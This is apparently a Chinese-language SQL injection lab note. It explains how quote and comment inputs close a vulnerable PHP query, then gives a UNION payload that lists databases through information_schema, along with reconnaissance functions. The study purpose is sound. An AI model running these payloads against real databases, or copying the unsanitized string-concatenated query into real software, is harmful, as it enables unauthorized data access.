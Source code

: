 ```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

对其中的$id使用上述几种参数替换后如下：

```
$sql="SELECT * FROM users WHERE id='1'' LIMIT 0,1";
实际执行 SELECT * FROM users WHERE id='1'' LIMIT 0,1  出错
$sql="SELECT * FROM users WHERE id='1"' LIMIT 0,1";
实际执行 SELECT * FROM users WHERE id='1"' LIMIT 0,1  不出错
$sql="SELECT * FROM users WHERE id='1'--+' LIMIT 0,1";
实际执行 SELECT * FROM users WHERE id='1'  --+' LIMIT 0,1  不出错，多余单引号被注释掉
$sql="SELECT * FROM users WHERE id='1"--+' LIMIT 0,1";
实际执行 SELECT * FROM users WHERE id='1"  --+' LIMIT 0,1  不出错
$sql="SELECT * FROM users WHERE id='1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3--+' LIMIT 0,1";
```

**第二种和第四种不出错，一种解释是Mysql中不严格，虽然多了一个双引号，查询时会把它当成两个单引号闭合，所以不会报错。**

参看下面例子加深理解：

```
$query = 'select * from A where id = "'.$id.'"limit 0,1';
传入参数为id=1"and 1=1 --+,则语句如下
$query = 'select * from A where id = "'.1"and 1=1 --+.'"limit 0,1';
在执行时前后两个使用单引号框起来的部分和中间使用两个点..的部分共三个部分内容相连如下
select * from A where id = "1"and 1=1 --+"limit 0,1
可见在执行时为双引号闭合，且使用注释符将多出来的limit前面那个双引号给注释掉了
```

**第五种**

首先使用order by x测列数，之后使用union测显示位测出在第二第三位，最后获取数据，这里由于使用Mysql，其数据库中information_schema库可以利用来获取信息，其他常见数据库如何获取信息待整理。

information_schema数据库是有关数据库的数据库，存储着其他数据库的详细信息。

```
select * from information_schema.tables;列出所有表，此表存放了当前所有数据库的表，效果等同于所有数据库下show tables的合集，table_name列记录所有表的名字合集，table_schema记录所有数据库名的合集。

information_schema.columns存放所有列名，其中table_name列记录所有表名合集，另有table_schema、column_name列

select * from information_schema.table_constraints;列出所有约束

information_schema.schemata 此表存放了当前所有数据库，等同于show databases;其中的schema_name列包含了当前数据库中各数据库名称。

group_concat(xxx)：是将分组中括号内对应的字符串进行连接，如果分组中括号内对应有多行，就将这多行字符串连接，默认以逗号分隔，可以指定separator。

内置函数
select version();返回mysql版本
select user();数据库用户
select database();数据库名
@datadir数据库路径
@@versioncompileos操作系统
```
